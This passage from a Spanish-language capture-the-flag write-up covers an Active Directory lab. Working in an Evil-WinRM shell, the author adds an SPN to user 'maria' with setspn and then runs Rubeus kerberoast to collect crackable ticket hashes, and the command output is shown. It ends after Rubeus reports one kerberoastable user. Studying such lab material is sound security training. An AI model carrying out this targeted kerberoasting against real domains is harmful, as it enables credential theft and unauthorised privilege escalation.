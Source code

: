 En el `bloodhound` podemos ver que `maria` tiene una sesión iniciada.
![Write-up Image](images/Screenshot_24.png)

Antes de hacer lo de la sesión iniciada, vamos a hacer este usuario kerberoasteable para ver si podemos conseguir su credencial, quizás nos pueda servir.

Ahora este usuario ya tiene un SPN.
```console
*Evil-WinRM* PS C:\Users\smith\Documents> setspn -a object.local/maria.object.local:1337 object.local\maria
Checking domain DC=object,DC=local

Registering ServicePrincipalNames for CN=maria garcia,CN=Users,DC=object,DC=local
        object.local/maria.object.local:1337
Updated object
```

Al intentar realizar el ataque con `Rubeus`
```console
*Evil-WinRM* PS C:\Users\smith\Documents> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast               

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : object.local
[*] Searching path 'LDAP://jenkins.object.local/DC=object,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

```